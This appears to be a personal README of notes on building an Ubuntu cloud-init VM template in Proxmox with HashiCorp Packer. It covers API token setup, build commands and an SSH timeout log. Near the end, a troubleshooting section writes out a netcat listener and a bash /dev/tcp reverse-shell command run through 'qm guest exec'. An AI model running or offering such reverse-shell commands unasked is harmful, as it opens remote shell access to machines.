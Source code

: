 ```yaml
---
title: "Proxmox: Create a Cloud-Init VM using Hashicorp Packer"
---
```


On proxmox

### create packer user

1. add packer user (ve)
2. create group Packer
3. add Group Permissions (PVEAdmin) to group Packer
4. add user packer to group Packer

### create API token

use new `packer` user, API Token, no expiry, copy secret.

ensure `Privilege Separation` is not checked, otherwise this token doesn't get the packer users group permissions.

update file `proxmox-devops/packer/proxmox/credentials.pkr.hcl` with creds.

```sh
proxmox_api_url = "https://{proxmox.hostname}:8006/api2/json"  # Your Proxmox IP Address
proxmox_api_token_id = "packer@pve!packer"  # API Token ID
proxmox_api_token_secret = "{token_goes_here}"
```

## Packer Folder Structure

```bash
/ubuntu-server-version
--/files
--/files/99-pve.cfg
--/http

```

### packer validate

`packer validate -var-file='../credentials.pkr.hcl' ./ubuntu-server-focal.pkr.hcl`

### packer build

`packer build -var-file='../credentials.pkr.hcl' ./ubuntu-server-focal.pkr.hcl`






### Troubleshooting

Getting error `Timeout waiting for SSH.`

```bash
  ~/R/proxmox-devops/packer/proxmox/ubuntu-server-focal ❯ packer build -var-file='../credentials.pkr.hcl' ./ubuntu-server-focal.pkr.hcl                     took  20m 24s at  23:33:03
ubuntu-server-focal.proxmox.ubuntu-server-focal-template: output will be in this color.

==> ubuntu-server-focal.proxmox.ubuntu-server-focal-template: Creating VM
==> ubuntu-server-focal.proxmox.ubuntu-server-focal-template: Starting VM
==> ubuntu-server-focal.proxmox.ubuntu-server-focal-template: Starting HTTP server on port 8802
==> ubuntu-server-focal.proxmox.ubuntu-server-focal-template: Waiting 5s for boot
==> ubuntu-server-focal.proxmox.ubuntu-server-focal-template: Typing the boot command
==> ubuntu-server-focal.proxmox.ubuntu-server-focal-template: Waiting for SSH to become available...
==> ubuntu-server-focal.proxmox.ubuntu-server-focal-template: Timeout waiting for SSH.
==> ubuntu-server-focal.proxmox.ubuntu-server-focal-template: Stopping VM
==> ubuntu-server-focal.proxmox.ubuntu-server-focal-template: Deleting VM
Build 'ubuntu-server-focal.proxmox.ubuntu-server-focal-template' errored after 20 minutes 23 seconds: Timeout waiting for SSH.

==> Wait completed after 20 minutes 23 seconds

==> Some builds didn't complete successfully and had errors:
--> ubuntu-server-focal.proxmox.ubuntu-server-focal-template: Timeout waiting for SSH.

==> Builds finished but no artifacts were created.
```



### reverse shell qm

ran listener on desktop `rlwrap nc -lvnp 6666` and then tried to run `qm guest exec 101 'bash -c 'exec bash -i &>/dev/tcp/172.16.2.209/6666 <&1''` on proxmox host.

```bash



## References

- followed video by ["Christian Lempa"](https://www.youtube.com/watch?v=1nf3WOEFq1Y)
- "Agent not running issues", see [oliviermichaelis](https://github.com/hashicorp/packer-plugin-proxmox/issues/91) comment with the `late-commands`.
- proxmox qemu (qm) commands for diagnosing and troubleshooting vm disks and configs from proxmox host.
- [autoinstall docs](https://ubuntu.com/server/docs/install/autoinstall)